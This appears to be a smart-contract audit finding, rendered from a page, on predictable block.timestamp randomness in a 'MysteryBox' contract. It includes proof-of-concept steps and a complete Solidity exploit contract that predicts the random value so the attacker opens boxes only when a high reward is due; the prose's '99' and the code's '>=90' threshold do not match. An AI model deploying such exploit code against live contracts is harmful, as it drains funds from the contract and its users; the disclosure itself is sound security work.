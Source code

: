 By leveraging these predictable inputs, an attacker can execute transactions at precise timestamps, ensuring they always win the highest reward.

### Exploit Details:

An attacker can continuously monitor the `block.timestamp` value and execute transactions at optimal times to generate a desired `randomValue` of 99. This guarantees the attacker receives the "Gold Coin" reward (worth 1 ether) 100% of the time.

### Proof of Concept:

1. The attacker writes a script that sends a transaction at a known `block.timestamp` value.
2. By controlling the timing, the `randomValue` becomes predictable.
3. The attacker repeatedly wins with Zero Losses.

   * Exploit Code:

# Deploy this Exploit code with remix IDE Using \`MysteryBox\` contract address, Then run the buy function and Run The Play Function Continually To Win.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IMysteryBox {
    function buyBox() external payable;
    function openBox() external;
    function boxesOwned(address _owner) external view returns (uint256);
    function claimAllRewards() external ;
}

contract MysteryBoxExploit {
    IMysteryBox public mysteryBox;
    address public owner;

    constructor(address _mysteryBoxAddress) {
        mysteryBox = IMysteryBox(_mysteryBoxAddress);
        owner = msg.sender;
    }

    function calculateRandom() public view returns (uint256) {
        return uint256(keccak256(abi.encodePacked(block.timestamp, address(this)))) % 100;
    }

    function buy() public payable {
        require(msg.sender == owner, "Not owner");
        mysteryBox.buyBox{value: 0.1 ether}();
    }

    function play() public {
        require(msg.sender == owner, "Not owner");
        require(mysteryBox.boxesOwned(address(this)) > 0, "No boxes owned");

        uint256 predictedRandomValue = calculateRandom();

        if (predictedRandomValue >= 90) {
            mysteryBox.openBox();
            mysteryBox.claimAllRewards();
        }
    }
    receive() external payable {}
}
```